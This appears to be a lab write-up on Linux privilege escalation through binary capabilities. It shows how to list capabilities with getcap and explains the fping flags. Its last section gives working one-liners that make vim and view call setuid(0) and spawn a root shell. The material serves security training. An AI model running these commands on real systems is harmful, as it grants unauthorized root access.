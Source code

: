 # Privileges Escalation - Linux
# Capabilities exploitation

They allow system admins to give a binary permission to perform specific privileged operations **without requiring full root access**. For this reason, setting a SUID/SGID bit is more insecure than manage capabilities.
- `getcap -r / 2>/dev/null` to check which binaries have capabilities set.

## Safe binary case
<img src="./imgs/capabilities.png" alt="capabilitiesImg">

The first result we get on our machine is the binary `/usr/bin/fping`. It has the `cap_net_raw=ep` capability, in which:

  - `e`: effective (it can use the capability).
  - `p`: permitted (it can have the capability).<br>

But if we print its privileges, we don't see any SUID/SGID bit set, so it prevents that kind of vulnerability exploitations.<br>In this specific case, according to https://gtfobins.github.io, we don't have any capability vulnerability, so it's safe.

## Vulnerable binary case
<img src="./imgs/capabilities2.png" alt="capabilities2Img">

In this case, giving a look to https://gtfobins.github.io, we get `/home/karen/vim` and `/home/ubuntu/view` as vulnerable binaries. It can be exploited following the GFTObins steps.
- **Vim exploitation**: `/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` and we are now root. Check it with `whoami`.
- **View exploitation**: `/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` and we are now root. Check it with `whoami`.
